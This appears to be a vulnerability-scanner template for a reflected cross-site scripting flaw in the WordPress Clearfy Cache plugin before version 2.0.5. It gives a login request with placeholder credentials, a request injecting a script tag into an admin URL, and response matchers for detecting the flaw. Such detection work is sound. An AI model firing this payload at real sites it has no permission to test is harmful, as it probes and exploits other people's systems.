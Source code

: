 - status
  1. 200

---

# WordPress Clearfy Cache \<2.0.5 - Cross-Site Scripting

## Description

- WordPress Clearfy Cache 2.0.5 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,authenticated,clearfy-cache,wpscan,wp-plugin

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=gonzales-wbcr_clearfy&action=index&wbcr_assets_manager=1&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(1)\</script>
  2. Webcraftic Clearfy - WordPress optimization plugin
- condition - and

**Type - word**

- part - header
- words
  1. text/html

